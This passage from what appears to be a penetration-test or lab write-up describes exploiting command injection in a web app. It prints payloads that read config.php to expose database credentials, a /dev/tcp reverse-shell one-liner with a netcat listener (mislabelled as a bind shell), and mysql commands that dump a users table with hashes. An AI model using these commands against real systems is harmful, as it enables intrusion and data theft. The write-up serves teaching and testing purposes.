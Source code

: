 {{< img src="image-022.png" caption="The *secret* PHPinfo page reveals a lot of information" w="800" >}}

2. **Disclosing database configuration**

The `config.php` listed above is typically used to store sensitive variables, such as database usernames and password. By using the `cat` command in combination with `sed` (to strip PHP tag, in order to avoid the browser interpreting the code as PHP), we are able to output the contents of this file in the web page:

{{< img src="image-024.png" caption="Exposing database credentials from `config.php` file" w="800" >}}

Command used: `x | cat config.php | sed 's/<?php//g'`

This reveals a lot of sensitive information that will be used at a later stage:

- The database is **MySQL** and running on the same server (`127.0.0.1`)
- Database username is `admin`
- Database password is `dbpassword`
- Database name is `citizens`

3. **Reverse shell binding**

It was easy to gain persistence using reverse shell binding. A bind shell is set up on the target host and binds to a specific port to listens for an incoming connection from the attack box. The steps are:

- Set up a Netcat listener on the attacker host on a certain port: `nc -nvlp <PORT>`
- Connect to our host from the target host on the same port:
  `a | /bin/bash -c 'bash -i > /dev/tcp/<IP>/<PORT> 0>&1'`

{{< img src="image-026.png" caption="Connecting to the bind shell" w="400" >}}

- Wait until the connection is established, and then issue commands on the target host from the attacker host:

{{< img src="image-028.png" caption="Setting up a bind shell and then issuing remote commands" w="800" >}}

#### Post-Exploitation: Data Collection

Having a remote shell working, and knowing the database credentials, the `mysql` command line tool can be remotely used to connect to the database that is running on port `3306` and exfiltrate data:

{{< img src="image-030.png" caption="Enumerating tables and users in database" w="800" >}}

In particular the following commands were used:

- `mysql -u admin -pdbpassword -h 127.0.0.1 citizens -e "show tables;”` to show all tables in database citizens
- `mysql -u admin -pdbpassword -h 127.0.0.1 citizens -e "select * from users;”` to enumerate all rows in table users

The table `users` consists in three columns (id, username, password). The extracted content is also reported below:

| id                                 | username  | password                           |
| ---------------------------------- | --------- | ---------------------------------- |
| `a87ff679a2f3e71d9181a67b7542122c` | `tonfana` | `1d12c29d7fecc9b97d3be41786d5f5bf` |
| `c4ca4238a0b923820dcc509a6f75849b` | `orici`   | `2d61bfbcb50d147b98b46529894646f2` |
| `c81e728d9d4c2f636f067f89cc14862c` | `ducale`  | `a5e9f44808f542c116c41af5b48fb0db` |
| `e4da3b7fbbce2345d7772b0674a318d5` | `allegra` | `3e3694da029d88178b66e78677446bf0` |
| `eccbc87e4b5ce2fe28308fd9f2a7baf3` | `tito`    | `124580a65148a50fab435f23b18c6026` |
